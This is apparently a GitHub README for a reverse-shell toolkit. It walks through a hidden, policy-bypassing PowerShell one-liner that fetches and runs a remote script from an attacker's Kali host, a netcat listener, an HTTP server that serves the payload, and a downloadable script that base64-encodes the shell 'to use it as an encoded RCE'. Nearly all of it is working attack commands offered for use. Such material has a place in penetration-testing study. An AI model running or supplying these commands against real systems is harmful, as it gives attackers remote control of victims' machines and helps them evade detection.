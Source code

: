 # **PowerShell Reverse Shell Command**

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://<kali_ip>/reverse.ps1')"
```

### **Steps:**

1. **Set Up the Listener on Kali**  
    Run Netcat to listen for incoming connections:
    
    ```bash
    nc -lvnp <port>
    ```

   Replace `<port>` with the desired listening port.
2. **Prepare the Reverse Shell Script** Save the [PowerShell](https://github.com/MGamalCYSEC/ReverseShellCrafter/raw/refs/heads/main/PowerShell/reverse.rar) then Replace `<kali_ip>` with your Kali machine's IP address and `<port>` with the same port you used for the listener.
``` shell
wget https://github.com/MGamalCYSEC/ReverseShellCrafter/raw/refs/heads/main/PowerShell/reverse.rar
```

3. **Start a Simple HTTP Server on Kali**
   
    ```bash
    python3 -m http.server 80
    ```
    
    This will serve the `reverse.ps1` file over HTTP.
    
4. **Run the PowerShell Command on the Target Machine** Replace `<kali_ip>` in the command with your Kali machine's IP address:
    
    ```powershell
    powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://<kali_ip>/reverse.ps1')"
    ```
    
   ---
# **Steps to Encode the Reverse Shell**
The [Python code](https://raw.githubusercontent.com/MGamalCYSEC/ReverseShellCrafter/refs/heads/main/PowerShell/encode.py) encodes the PowerShell reverse shell to base64 contained in the payload variable and then prints the result to standard output.
Download it 
``` shell
wget https://raw.githubusercontent.com/MGamalCYSEC/ReverseShellCrafter/refs/heads/main/PowerShell/encode.py
```

Replace `<kali_ip>` with your Kali machine's IP address and `<port>` with the same port you used for the listener.
We can run it and retrieve the output to use it as an encoded RCE

